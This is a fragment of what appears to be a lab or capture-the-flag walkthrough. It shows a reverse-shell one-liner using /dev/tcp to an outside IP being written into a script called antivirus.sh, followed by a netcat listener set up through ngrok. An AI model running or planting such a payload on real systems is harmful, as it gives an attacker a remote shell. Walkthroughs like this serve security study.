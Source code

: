 ![](attachments/20240402164133.png)

Inserting the payload into the script

![](attachments/20240402164321.png)

```shell
echo "bash -c 'exec bash -i &>/dev/tcp/3.68.171.119/18599 <&1'" > antivirus.sh
```

Setup a netcat listener on the same port as your ngrok:

![](attachments/20240402164414.png)
